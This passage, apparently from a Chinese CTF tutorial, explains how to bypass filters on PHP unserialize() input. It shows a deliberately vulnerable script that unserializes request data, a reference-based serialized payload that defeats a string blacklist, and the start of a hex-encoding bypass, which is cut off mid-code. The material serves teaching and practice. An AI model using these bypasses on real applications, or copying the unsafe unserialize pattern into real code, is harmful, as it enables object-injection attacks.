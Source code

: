 利用引用绕过

如下，要求输出 you success，但构造的序列化字符串中不能由 aaa
```php
<?php
class test {
    public $a;
    public $b;
    public function __construct(){
        $this->a = 'aaa';
    }
    public function __destruct(){
 
        if($this->a === $this->b) {
            echo 'you success';
        }
    }
}
if(isset($_REQUEST['input'])) {
    if(preg_match('/aaa/', $_REQUEST['input'])) {
       die('nonono');
    }
    unserialize($_REQUEST['input']);
}else {
    highlight_file(__FILE__);
}
```

可以利用引用进行绕过
```php
<?php
class test {
    public $a;
    public $b;
    public function __construct(){
        $this->b = &$this->a;
    }
}
$a = serialize(new test());
echo $a;
//O:4:"test":2:{s:1:"a";N;s:1:"b";R:2;}
```

构造引用使得 $b 和 $a 地址相同从而绕过检测，达成要求。

16进制绕过字符的过滤

序列字符串中表示字符类型的s大写时，会被当成16进制解析。

举个栗子：
```php

<?php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 'success';
    }
}
function check($data){
    if(preg_match('/username/', $data)){
        echo("nonono!!!</br>");
    }
    else{
```
